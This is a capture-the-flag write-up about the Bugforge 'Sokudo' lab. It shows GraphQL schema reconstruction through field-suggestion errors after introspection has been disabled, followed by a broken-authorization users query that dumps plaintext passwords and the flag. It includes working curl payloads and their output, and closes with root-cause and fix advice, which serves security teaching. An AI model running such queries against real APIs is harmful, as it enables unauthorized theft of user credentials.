

> [!info] Target / Context
> **Sokudo** - **Daily** Challenge on Bugforge. Blackbox web application. The target features standard REST endpoints for authentication and a GraphQL endpoint handling specific frontend actions. Authentication is handled via JWT (`Authorization: Bearer`). 

## TL;DR

During the initial recon phase, I systematically mapped the application's functionality and reviewed the HTTP proxy history in Burp Suite, which revealed frontend traffic calling an `/api/graphql` endpoint. While standard introspection (`__schema`) was explicitly disabled, the GraphQL engine's validation layer still leaked schema structure via "Did you mean?" error messages. By deliberately sending misspelled queries, I reconstructed the `users` query and the `User` type schema. The `users` resolver suffered from Broken Function Level Authorization (BFLA), allowing a newly registered, low-privilege user to extract plaintext passwords (including the flag) of all platform users.

---

## Recon / Code Review

I started by thoroughly mapping the application's functionality. I registered a standard user account (`asd` / `asd@asd.asd`) via `/api/register` to obtain a valid JWT token for authenticated testing:

```http
POST /api/register HTTP/2
Host: lab-1781670549165-wyaqzn.labs-app.bugforge.io

{"username":"asd","email":"asd@asd.asd","password":"asdasd","full_name":"asd"}
```

With an active session, I clicked through every available feature on the frontend to generate traffic and understand the application's flow. Afterward, I switched to **Burp Suite's HTTP Proxy History** to review the captured requests. 

While the main application relied heavily on standard REST endpoints (`/api/stats`, `/api/session/start`, etc.), I spotted a `POST` request being sent to `/api/graphql`. The frontend was actively using it to log session activities:

```json
{
  "query": "\n  mutation LogActivity($event: String!, $userId: ID, $metadata: String) {\n    logActivity(event: $event, userId: $userId, metadata: $metadata) {\n      id\n      event\n      timestamp\n    }\n  }\n",
  "variables": { "event": "session.started", "userId": null, "metadata": "{\"duration\":15}" }
}
```

Finding a GraphQL endpoint mixed into a REST-heavy application provides a great additional attack surface to explore.



---

## The Process

### Attempt 1 — Standard Introspection
Finding a GraphQL endpoint, the immediate next step is to dump the schema to understand the API surface. I sent a standard full introspection query (`__schema`).

**Result — Failed:**
```json
{
  "errors": [
    { "message": "GraphQL introspection has been disabled, but the requested query contained the field \"__schema\"." },
    { "message": "GraphQL introspection has been disabled, but the requested query contained the field \"queryType\"." }
  ]
}
```
The server actively blocked `__schema` and related meta-fields. The developers implemented a custom validation rule to prevent automated schema dumping.

### Attempt 2 — Bypassing via Field Suggestion Leak
Disabling introspection prevents bulk dumping, but it doesn't disable the GraphQL engine's built-in typo correction (`FieldsOnCorrectTypeRule`). If you ask for a field that doesn't exist, the server calculates the Levenshtein distance and suggests valid fields.

I sent a query with a deliberate typo on the root Query object (`usersz`):
```bash
curl -s -X POST 'https://lab-XYZ-app.bugforge.io/api/graphql' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: Bearer <JWT>' \
  --data '{"query":"{ usersz { id } }"}'
```

**Result — Progress:**
```json
{"errors":[{"message":"Cannot query field \"usersz\" on type \"Query\". Did you mean \"users\" or \"user\"?"}]}
```
The server kindly informed me that the `users` query exists. 

### Attempt 3 — Exploiting BFLA & Schema Enumeration
I queried the newly discovered `users` endpoint just requesting the `id` field.

```json
{"data":{"users":[{"id":"1"},{"id":"2"},{"id":"3"},{"id":"4"}]}} 
```
**Bingo.** My low-privilege `asd` account could retrieve the IDs of every user in the database. This is a classic Broken Function Level Authorization vulnerability. 

Now, I needed to know what other fields were available on the `User` type. I used the validator as an oracle, throwing guesses at it:
```bash
--data '{"query":"{ users { id username email password role isAdmin createdAt } }"}' 
```
**Result:**
```json
{"errors":[{"message":"Cannot query field \"isAdmin\" on type \"User\"."},{"message":"Cannot query field \"createdAt\" on type \"User\"."}]} 
```
The server complained about `isAdmin` and `createdAt`, but **did not** complain about `id`, `username`, `email`, `password`, or `role`. This confirmed that the `password` field was queryable.

---

## Exploit / Proof of Concept

Having mapped the exact structure of the `User` type, I formulated the final payload to dump the database, explicitly requesting the `password` field.

```bash
curl -s -X POST 'https://lab-XYZ-app.bugforge.io/api/graphql' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: Bearer <JWT>' \
  --data '{"query":"{ users { id username email password role } }"}'
```

**Result:**
```json
{
  "data": {
    "users": [
      {
        "id": "1",
        "username": "admin",
        "email": "admin@sokudo.app",
        "password": "bug{IDpF94fqSxnU2wS7NKHCbBqrAwftxDc2}",
        "role": "admin"
      },
      { "id": "2", "username": "speedtyper", "password": "password123", "role": "user" },
      { "id": "3", "username": "learner", "password": "learner456", "role": "user" },
      { "id": "4", "username": "asd", "password": "asdasd", "role": "user" }
    ]
  }
}
```

The flag was stored directly in the `password` field of the admin account. 

---

## Root Cause & Fix

### Root cause
This vulnerability is the result of a chain of multiple misconfigurations:
1. **False Sense of Security:** Relying solely on disabling `__schema` introspection without disabling field suggestions allowed for easy schema reconstruction (Oracle attack).
2. **Broken Function Level Authorization (BFLA):** The `users` resolver lacked Role-Based Access Control (RBAC), allowing any authenticated user to fetch the whole user table.
3. **Data Over-fetching / Sensitive Data Exposure:** The database `password` column was mapped directly to the GraphQL schema and stored in plaintext.

### Fix
1. **Harden GraphQL Engine:** Disable field suggestions ("Did you mean?") in production environments.
2. **Implement Authorization Check:** Add context-aware role checks in the `users` resolver (e.g., `if (context.user.role !== 'admin') throw new ForbiddenError()`).
3. **Use DTOs:** Never expose sensitive database columns (`password`, `tokens`) in the public GraphQL schema. Create specific `UserOutput` types that omit these fields.
4. **Hash Passwords:** Never store passwords or flags as plaintext in database fields intended for user authentication.

---

## Takeaway

Thorough traffic mapping is crucial — analyzing all requests generated by the frontend reveals the true attack surface. Furthermore, disabling standard GraphQL introspection is only a minor speed bump for an attacker. If the API is "chatty" and provides typo suggestions, the entire schema can be reverse-engineered field by field.
```